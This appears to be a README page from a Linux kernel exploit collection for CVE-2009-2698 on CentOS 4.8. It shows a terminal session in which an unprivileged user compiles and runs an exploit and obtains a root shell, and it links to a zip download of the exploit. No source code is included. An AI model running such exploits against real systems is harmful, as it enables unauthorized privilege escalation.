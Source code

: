 INFO
----

    # CVE-2009-2698
    CVE-2009-2698 compiled for CentOS 4.8
    > https://github.com/SecWiki/linux-kernel-exploits/tree/4dca098e7491efc83903494d7c00f24c843aae99/2009/CVE-2009-2698

    # Detail

    ```
    [hacker@localhost ~]$ id
    uid=500(hacker) gid=500(hacker) groups=500(hacker) context=user_u:system_r:unconfined_t
    [hacker@localhost ~]$ gcc 36108.c  -o exp
    [hacker@localhost ~]$ ./exp
    sh-3.00# id
    uid=0(root) gid=0(root) groups=500(hacker) context=user_u:system_r:unconfined_t
    sh-3.00# uname -an
    Linux localhost.localdomain 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 i686 i386 GNU/Linux
    sh-3.00#
    ```

EXP
---

<https://github.com/JustYoomoon/Exploit/blob/main/CVE-2009-2698.zip>